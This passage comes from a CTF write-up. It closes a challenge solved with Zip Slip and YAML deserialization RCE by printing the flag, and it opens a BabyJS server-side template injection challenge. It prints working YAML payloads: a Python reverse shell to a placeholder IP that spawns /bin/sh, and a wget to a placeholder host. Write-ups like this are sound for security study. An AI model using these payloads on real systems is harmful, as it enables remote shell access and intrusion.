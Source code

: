  Finally RCE , some payload here

```yaml
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - python
  - -c
  - "import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('IP',60001));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"


!!python/object/apply:subprocess.Popen
- !!python/tuple [wget, 'http://ip:8080/foo']

```



Flag

```
Defenit{R4ce_C0nd1710N_74r_5L1P_w17H_Y4ML_Rce!}
```



### References

1. [Zip Slip Vulnerability List](https://github.com/snyk/zip-slip-vulnerability)
2. [Zip Slip Vulnerability Explain](https://snyk.io/research/zip-slip-vulnerability)
3. [tarfile: Traversal attack vulnerability](https://bugs.python.org/issue21109)
4. [Python Library Reference: tarfile.TarFile.extractall](https://docs.python.org/3/library/tarfile.html#tarfile.TarFile.extractall)
5. [YAML Deserialization Attack in Python](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter)



## BabyJS

> Description
>
> Render me If you can.



### Vulnerability

- Server Side Template Injection



### Main

First look around the program ,  we could find the program using express-hbs as  the template  engine.
